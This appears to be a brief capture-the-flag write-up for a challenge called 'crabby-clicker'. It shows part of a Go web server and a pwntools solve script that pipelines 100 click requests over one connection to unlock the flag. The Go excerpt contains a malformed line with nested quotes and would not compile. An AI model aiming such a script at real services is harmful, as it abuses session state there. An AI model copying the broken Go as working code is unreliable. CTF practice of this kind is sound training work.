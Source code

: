 ```go
		} else if uri == "/flag" {
			if r.burgers >= 100 {
				r.generateResponse("fmt.Sprintf("Flag: UMASS{%s}", os.Getenv("FLAG")"))
			} else {
				r.generateResponse("Not enough burgers")
			}
		} else {
			r.generateResponse("Not found")
		}
	}
}

func (r *RequestHandler) generateResponse(message string) {
	r.conn.Write([]byte(fmt.Sprintf("HTTP/1.1 200 OK\r\nContent-Type: text/plain\r\n\r\n%s\nburgers: %d\n", message, r.burgers)))
}

func readHTTPHeader(reader *bufio.Reader) (string, error) {
	// Read headers until \r\n\r\n
	var requestLines []string
	for {
		line, err := reader.ReadString('\n')
		if err != nil {
			return "", err
		}
		requestLines = append(requestLines, line)
		// Check if the current line marks the end of the headers
		if line == "\r\n" {
			break
		}
	}
	return strings.Join(requestLines, ""), nil
}

```

solve.py
```python
from pwn import *

host = "crabby-clicker.ctf.umasscybersec.org" 
port = 80            

conn = remote(host, port)

# clicker
for i in range(100):
    print("Burger:", i+1)
    conn.send(f"GET /click HTTP/1.1\r\n")
    conn.send(f"Host: {host}\r\n")
    conn.send("\r\n")

# flag
conn.send(f"GET /flag HTTP/1.1\r\n")
conn.send(f"Host: {host}\r\n")
conn.send("\r\n")  
response = conn.recvall().decode()
print(response)

conn.close()
```

